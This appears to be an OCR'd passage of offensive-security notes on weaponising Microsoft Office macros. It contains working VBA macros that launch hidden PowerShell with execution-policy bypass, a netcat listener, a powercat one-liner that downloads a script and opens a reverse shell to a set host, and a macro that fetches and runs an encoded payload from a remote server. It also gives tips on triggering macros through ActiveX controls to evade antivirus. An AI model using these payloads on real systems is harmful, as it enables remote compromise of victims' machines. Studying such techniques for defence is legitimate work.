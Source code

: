 ```vb
    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

- Set up listener `nc -nvlp 1234`

**To avoid AV, we can encode the powershell scipt**

- Create a pwsh sript for powercat

```pwsh
LHOST=10.10.10.10
LPORT=1234
pwsh -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/reverse-shell.txt
```

- Host the file
- Create marco

```vb
'Set up autoopen

'exploit
Sub powercat()
    Dim Str As String
    Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://<host>/reverse-shell.txt'); iex 'powershell -WindowSyle Hidden -E $code'"""

    CreateObject("WScript.Shell").Run Str

End Sub
```

### Using ActiveX Controls for Marco Execution

ActiveX is set of technology developed by Microsoft for creating interactive content within web page and desktop app
- Doesn't need to use `Auto_Open` or `Document_Open` to execute marco
- Avoid AV

ActiveX controls and subroutine names to use for automatic marco execution

![ActiveX](./Assets/image_4.png)
